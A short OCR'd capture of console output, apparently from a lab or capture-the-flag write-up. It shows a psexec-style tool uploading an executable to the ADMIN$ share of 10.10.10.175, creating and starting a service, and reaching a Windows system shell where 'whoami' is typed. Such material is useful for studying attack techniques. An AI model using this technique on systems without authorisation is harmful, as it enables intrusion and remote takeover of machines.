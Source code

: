     [*] Requesting shares on 10.10.10.175.....
    [*] Found writable share ADMIN$
    [*] Uploading file EZsXIuec.exe
    [*] Opening SVCManager on 10.10.10.175.....
    [*] Creating service WxJi on 10.10.10.175.....
    [*] Starting service WxJi.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.973]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>
    C:\Windows\system32>whoami 

